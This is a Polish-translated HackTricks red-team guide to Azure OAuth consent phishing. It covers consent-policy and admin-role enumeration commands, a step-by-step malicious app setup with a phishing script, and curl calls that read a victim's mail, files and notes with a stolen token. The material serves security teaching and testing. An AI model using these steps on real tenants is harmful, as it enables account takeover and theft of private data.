

# Az - OAuth Apps Phishing


Learn & practice AWS Hacking:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
Learn & practice GCP Hacking: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


## OAuth App Phishing

**Aplikacje Azure** są konfigurowane z uprawnieniami, które będą mogły być używane, gdy użytkownik wyrazi zgodę na aplikację (takimi jak enumerowanie katalogu, dostęp do plików lub wykonywanie innych działań). Należy pamiętać, że aplikacja będzie działać w imieniu użytkownika, więc nawet jeśli aplikacja może prosić o uprawnienia administracyjne, jeśli **użytkownik, który wyraża zgodę, nie ma tych uprawnień**, aplikacja **nie będzie mogła wykonywać działań administracyjnych**.

### Uprawnienia zgody aplikacji

Domyślnie każdy **użytkownik może wyrazić zgodę na aplikacje**, chociaż można to skonfigurować tak, aby użytkownicy mogli wyrażać zgodę tylko na **aplikacje od zweryfikowanych wydawców dla wybranych uprawnień** lub nawet **usunąć uprawnienie** dla użytkowników do wyrażania zgody na aplikacje.

<figure><figcaption></figcaption></figure>

Jeśli użytkownicy nie mogą wyrazić zgody, **administratorzy** tacy jak `GA`, `Administrator aplikacji` lub `Administrator aplikacji w chmurze` mogą **wyrazić zgodę na aplikacje**, które użytkownicy będą mogli używać.

Co więcej, jeśli użytkownicy mogą wyrażać zgodę tylko na aplikacje używające **niskiego ryzyka** uprawnień, te uprawnienia domyślnie to **openid**, **profil**, **email**, **User.Read** i **offline\_access**, chociaż możliwe jest **dodanie więcej** do tej listy.

A jeśli mogą wyrażać zgodę na wszystkie aplikacje, mogą wyrażać zgodę na wszystkie aplikacje.

### 2 Typy ataków

* **Nieautoryzowany**: Z zewnętrznego konta utwórz aplikację z **niskim ryzykiem uprawnień** `User.Read` i `User.ReadBasic.All`, na przykład, phishinguj użytkownika, a będziesz mógł uzyskać dostęp do informacji katalogowych.
* To wymaga, aby phished użytkownik był **w stanie zaakceptować aplikacje OAuth z zewnętrznego najemcy**.
* Jeśli phished użytkownik jest jakimś administratorem, który może **wyrażać zgodę na każdą aplikację z dowolnymi uprawnieniami**, aplikacja może również **żądać uprawnień uprzywilejowanych**.
* **Autoryzowany**: Po skompromitowaniu podmiotu z wystarczającymi uprawnieniami, **utwórz aplikację wewnątrz konta** i **phishinguj** jakiegoś **uprzywilejowanego** użytkownika, który może zaakceptować uprzywilejowane uprawnienia OAuth.
* W tym przypadku możesz już uzyskać dostęp do informacji katalogowych, więc uprawnienie `User.ReadBasic.All` nie jest już interesujące.
* Prawdopodobnie interesują Cię **uprawnienia, które wymagają zgody administratora**, ponieważ zwykły użytkownik nie może przyznać aplikacjom OAuth żadnych uprawnień, dlatego musisz **phishingować tylko tych użytkowników** (więcej na temat ról/uprawnień, które przyznają to uprawnienie później).

### Użytkownicy mogą wyrażać zgodę

Należy pamiętać, że musisz wykonać to polecenie z konta użytkownika wewnątrz najemcy, nie możesz znaleźć tej konfiguracji najemcy z zewnętrznego. Poniższe cli może pomóc Ci zrozumieć uprawnienia użytkowników:


```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```


* Użytkownicy mogą wyrażać zgodę na wszystkie aplikacje: Jeśli w **`permissionGrantPoliciesAssigned`** znajdziesz: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy`, to użytkownicy mogą akceptować każdą aplikację.
* Użytkownicy mogą wyrażać zgodę na aplikacje od zweryfikowanych wydawców lub twojej organizacji, ale tylko na uprawnienia, które wybierzesz: Jeśli w **`permissionGrantPoliciesAssigned`** znajdziesz: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`, to użytkownicy mogą akceptować każdą aplikację.
* **Wyłącz zgodę użytkownika**: Jeśli w **`permissionGrantPoliciesAssigned`** znajdziesz tylko: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` i `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`, to użytkownicy nie mogą wyrażać zgody na żadne.

Możliwe jest znalezienie znaczenia każdej z komentowanych polityk w:


```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```


### **Administratorzy aplikacji**

Sprawdź użytkowników, którzy są uważani za administratorów aplikacji (mogą akceptować nowe aplikacje):


```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```


## **Przegląd Przepływu Ataku**

Atak składa się z kilku kroków, które mają na celu atak na ogólną firmę. Oto jak może się to rozwinąć:

1. **Rejestracja Domeny i Hosting Aplikacji**: Atakujący rejestruje domenę przypominającą zaufaną stronę, na przykład "safedomainlogin.com". Pod tą domeną tworzony jest subdomena (np. "companyname.safedomainlogin.com"), aby hostować aplikację zaprojektowaną do przechwytywania kodów autoryzacyjnych i żądania tokenów dostępu.
2. **Rejestracja Aplikacji w Azure AD**: Następnie atakujący rejestruje aplikację wielo-tenantową w swoim dzierżawcy Azure AD, nadając jej nazwę po docelowej firmie, aby wyglądała na legalną. Konfiguruje URL przekierowania aplikacji, aby wskazywał na subdomenę hostującą złośliwą aplikację.
3. **Ustawienie Uprawnień**: Atakujący ustawia aplikację z różnymi uprawnieniami API (np. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Te uprawnienia, po przyznaniu przez użytkownika, pozwalają atakującemu na wydobycie wrażliwych informacji w imieniu użytkownika.
4. **Dystrybucja Złośliwych Linków**: Atakujący tworzy link zawierający identyfikator klienta złośliwej aplikacji i dzieli się nim z docelowymi użytkownikami, oszukując ich, aby przyznali zgodę.

## Przykład Ataku

1. Zarejestruj **nową aplikację**. Może być tylko dla bieżącego katalogu, jeśli używasz użytkownika z zaatakowanego katalogu, lub dla dowolnego katalogu, jeśli jest to atak zewnętrzny (jak na poniższym obrazku).
1. Ustaw również **URI przekierowania** na oczekiwaną URL, gdzie chcesz otrzymać kod do uzyskania tokenów (`http://localhost:8000/callback` domyślnie).

<figure><figcaption></figcaption></figure>

2. Następnie utwórz sekret aplikacji:

<figure><figcaption></figcaption></figure>

3. Wybierz uprawnienia API (np. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><figcaption></figcaption></figure>

4. **Wykonaj stronę internetową (**[**azure\_oauth\_phishing\_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)**, która prosi o uprawnienia:


```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```


5. **Wyślij URL do ofiary**
1. W tym przypadku `http://localhost:8000`
6. **Ofiary** muszą **zaakceptować komunikat:**

<figure><figcaption></figcaption></figure>

7. Użyj **tokena dostępu, aby uzyskać żądane uprawnienia**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Inne narzędzia

* [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Sprawdź [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer), aby dowiedzieć się, jak go skonfigurować.
* [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Post-eksploatacja

Gdy uzyskasz dostęp do użytkownika, możesz robić rzeczy takie jak kradzież wrażliwych dokumentów, a nawet przesyłanie zainfekowanych plików dokumentów.

## Odniesienia

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)


Ucz się i ćwicz Hacking AWS:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
Ucz się i ćwicz Hacking GCP: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>

